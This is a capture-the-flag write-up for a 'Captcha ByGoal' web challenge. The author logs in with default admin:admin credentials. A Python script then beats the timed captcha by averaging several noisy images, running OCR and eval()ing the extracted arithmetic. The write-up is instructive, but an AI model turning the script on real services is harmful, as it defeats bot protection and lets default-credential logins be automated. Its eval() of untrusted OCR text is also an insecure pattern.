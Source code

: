 # Captcha ByGoal

```
Не намагайтеся зігнути ложку - це неможливо. Натомість намагайтеся лише усвідомити істину.
```

After following the [link](https://captcha-bygoal.ua30ctf.org/) we get to the login page

![Login](./images/captcha_login.png)

Of course we try _admin:admin_ credentials, otherwise we would not be hackers.

---

And we guessed it right. Now we can see the following captcha

![Captcha](./images/captcha.png)

It has a time limit, so i tried to solve it as fast as i can, but couldn't quite do it in time a bunch of times. So i looked at the captcha itself (right click -> open image in new tab) and got to _/img.php_ endpoint. If we refresh the page, the values are unchanged but the noise is. That's interesting. 

So if we can't do it by hand, i thought about automating it and wrote a python script

```python
#!/usr/bin/env python3

from PIL import Image
from io import BytesIO
import pytesseract
import requests
import re

def main():
  url = 'https://captcha-bygoal.ua30ctf.org/img.php'
  cookie = 'fd883a893fe47c11e87db162cca675c2'
  imgs = []
  # the more, better quality
  sample_size = 3
  for i in range(sample_size):
    img = Image.open(requests.get(url, stream=True, cookies={'PHPSESSID': cookie}).raw)
    imgs.append(img)

  pixels = [img.load() for img in imgs]
  width, height = imgs[0].size
  res_img = Image.new('1', (width, height))
  res_pix = res_img.load()


  for i in range(width):
    for j in range(height):
      temp = []
      for k in range(len(pixels)):
        temp.append(sum(pixels[k][i, j]))
      res_pix[i, j] = 255 if min(temp) < 300 else 0
  # Perform OCR
  text = pytesseract.image_to_string(res_img, config='--psm 6')

  expr = re.findall(r'\d+|\+|\-|\*|\/|\(|\)', text)
  result = eval(''.join(expr))
  req = requests.post(
    'https://captcha-bygoal.ua30ctf.org/index.php',
    cookies={'PHPSESSID': cookie},
    data={'login':'admin', 'password':'admin', 'captcha':result}
  )
  for line in req.content.decode().split('\n'):
    if 'expired' in line:
      main()
    elif 'ctf{' in line or 'CTF{' in line:
      print(line[6:])


if __name__ == '__main__':
  main()

```

To summarize it, we make a few requests to the _/img.php_ endpoint and get several similar pictures with different noise. 
Cookies are necessary to get the access to the endpoint as a part of authorization process. Then we convert those images from bytes to pixel values and create a new picture that will be without the noise. We loop through each pixel with RGB values and _sum_ them in order to get the unified values. 
Background is always grey and the operators with operands are always close to white (so as noise). Therefore if the minimum value (which is probably grey if its background or white if it's a character. more sample size gives better accuracy because of noise but lower speed) from sample images doesn't pass the treshhold we paint it as white, otherwise as black. then we use pytesseract to perform OCR on the image and extract the string based on the given regex, we extract the values (in case there was an error) and submit the result via post request. the last for loop is just for convenience to extract the flag from response body and if not found execute again.



---

## ctf{Everything_is_physics_and_math}



